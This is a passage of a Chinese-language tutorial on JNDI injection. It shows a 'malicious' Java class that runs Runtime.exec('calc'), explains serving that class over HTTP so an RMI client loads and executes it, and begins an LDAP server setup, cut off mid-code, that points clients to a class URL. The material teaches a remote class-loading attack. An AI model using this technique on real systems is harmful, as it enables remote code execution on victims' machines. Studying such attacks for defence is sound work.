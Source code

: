 恶意文件

```java

import java.io.IOException;

public class test {
    public test() throws IOException {
        Runtime.getRuntime().exec("calc");
    }
}


```

将`test.java`编译为`test.class`，然后再`test.class`目录下起web服务，端口和上面服务端`Reference`端口相同，然后先运行服务端再运行客户端，客户端就会请求这个恶意的`class`文件

客户端去访问rmi服务器时，`rmi`服务器会返回一个`http`服务，客户端会请求这个`http`服务，`http`服务上就有我们的恶意类

# JDNI+LDAP

下载[unboundid-ldapsdk-3.2.0.jar](https://repo.maven.apache.org/maven2/com/unboundid/unboundid-ldapsdk/3.2.0/unboundid-ldapsdk-3.2.0.jar)，导入依赖：`项目结构->模块->添加模块->添加jar包`

pom.xml

```xml
<dependency>  
 <groupId>com.unboundid</groupId>  
 <artifactId>unboundid-ldapsdk</artifactId>  
 <version>3.2.0</version>  
 <scope>test</scope>  
</dependency>
```

`ldap_server`代码

```java
package org.example;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

public class LDAPServer {
    private static final String LDAP_BASE = "dc=example,dc=com";


    public static void main (String[] args) {

        String url = "http://127.0.0.1:8080/#Calculator";
        int port = 1234;


        try {
```